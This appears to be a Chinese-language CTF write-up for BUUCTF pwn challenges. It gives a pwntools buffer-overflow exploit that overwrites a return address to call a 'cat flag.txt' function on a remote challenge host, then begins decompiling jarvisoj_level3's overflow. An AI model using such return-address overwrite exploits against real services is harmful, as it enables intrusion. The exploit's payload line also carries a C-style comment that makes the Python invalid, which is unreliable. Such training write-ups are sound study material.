 ![alt text](image-3.png)

发现有cat flag.txt

就用这个来获得flag
现在可以开始构造payload了
```python
from pwn import* #引用pwn库

r=remote('node5.buuoj.cn',28399)  #远程链接

system_adr=0x040060D #cat flag.txt函数的地址

payload=b'a'*(0x40+8)+p64(system_adr) //先输入0x40+8个垃圾数据导致其返回地址被覆盖，然后再加入flag函数地址

r.sendline(payload)

r.interactive()

```
得到flag

## jarvisoj_level3

>做题人：郑林均
>url链接：[jarvisoj_level3
1](https://buuoj.cn/challenges#jarvisoj_level3)

先放入linux用checksec一下，发现是32位的，开启了NX保护，然后放进IDA看看，很容易发现溢出点
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);                  // //溢出点
                                                
}
```
